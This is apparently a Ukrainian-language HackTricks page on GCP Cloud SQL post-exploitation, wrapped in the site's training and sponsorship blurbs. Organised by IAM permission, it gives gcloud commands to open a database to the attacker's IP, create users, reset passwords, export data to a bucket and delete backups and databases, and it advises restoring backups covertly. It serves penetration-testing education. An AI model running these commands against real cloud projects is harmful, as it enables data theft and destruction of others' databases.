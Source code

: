 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Для отримання додаткової інформації про Cloud SQL перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Щоб підключитися до бази даних, вам **потрібен доступ до порту бази даних** і знати **ім'я користувача** та **пароль**, немає жодних вимог IAM. Отже, простий спосіб отримати доступ, якщо база даних має публічну IP-адресу, - це оновити дозволені мережі та **дозволити вашій власній IP-адресі отримати доступ до неї**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Також можливо використовувати **`--no-backup`** для **порушення резервних копій** бази даних.

Оскільки це вимоги, я не зовсім впевнений, для чого потрібні дозволи **`cloudsql.instances.connect`** та **`cloudsql.instances.login`**. Якщо ви знаєте, надішліть PR!

### `cloudsql.users.list`

Отримати **список усіх користувачів** бази даних:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ця дозволяє **створити нового користувача всередині** бази даних:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Цей дозвіл дозволяє **оновлювати користувача всередині** бази даних. Наприклад, ви можете змінити його пароль:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Резервні копії можуть містити **стару чутливу інформацію**, тому цікаво їх перевірити.\
**Відновіть резервну копію** всередині бази даних:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Щоб зробити це більш приховано, рекомендується створити новий SQL екземпляр і відновити дані там, а не в поточних базах даних.

### `cloudsql.backupRuns.delete`

Ця дозволяє видаляти резервні копії:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Експортуйте базу даних** до Cloud Storage Bucket, щоб ви могли отримати до неї доступ звідти:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Імпортувати базу даних** (перезаписати) з Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Видалити базу даних з екземпляра бази даних:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
